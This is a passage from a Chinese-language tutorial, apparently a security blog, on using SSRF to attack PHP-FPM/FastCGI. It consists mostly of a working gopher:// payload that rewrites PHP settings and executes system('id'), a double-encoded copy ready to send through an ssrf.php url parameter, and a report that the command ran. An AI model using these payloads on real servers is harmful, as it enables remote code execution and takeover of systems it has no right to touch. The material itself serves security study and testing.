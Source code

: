 如上图所示获得 payload：

```bash
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH54%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%006%04%00%3C%3Fphp%20system%28%27id%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

然后进行二次编码后将最终的 payload 内容放到？url=后面发送过去即可：

```bash
/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH54%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25006%2504%2500%253C%253Fphp%2520system%2528%2527id%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

如下图所示，命令执行成功：

[![](assets/1698897074-309d628ca5b8b7102b55e0b97fe8df37.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134742-91522ad0-b2e5-1.png)

## FTP - SSRF 攻击 FPM/FastCGI
